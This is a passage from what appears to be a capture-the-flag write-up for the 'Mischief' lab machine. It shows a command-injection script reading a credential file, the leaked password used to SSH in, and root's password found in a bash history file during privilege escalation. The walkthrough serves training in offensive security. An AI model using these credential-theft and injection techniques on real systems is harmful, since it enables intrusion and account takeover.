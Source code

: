 

    root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "cat /home/loki/credential?"
    pass: lokiisthebestnorsegod



Armed with that password, I can ssh in as loki:



    root@kali# ssh loki@10.10.10.92
    ...[snip]...
    loki@Mischief:~$ id
    uid=1000(loki) gid=1004(loki) groups=1004(loki)
    loki@Mischief:~$ cat user.txt 
    bf58078e...



## Privesc: loki --\> root

### Enumeration

As loki, one of the things that jumped out to me was that the
`.bash_history` file wasn't mapped to `/dev/null`. In looking at it, I
notice there's a similar but different set of credentials being used
with the `python SimpleHTTPAuthServer`:



    loki@Mischief:~$ cat .bash_history 
    python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
    exit
    free -mt
    ifconfig
    cd /etc/
    sudo su
    su
    exit
    su root
    ls -la
    sudo -l
    ifconfig
    id
    cat .bash_history 
    nano .bash_history 
    exit
    cat user.txt 
    id
    exit



It turns out that's root's password. But, loki can't `su`:



    loki@Mischief:~$ su
    -bash: /bin/su: Permission denied
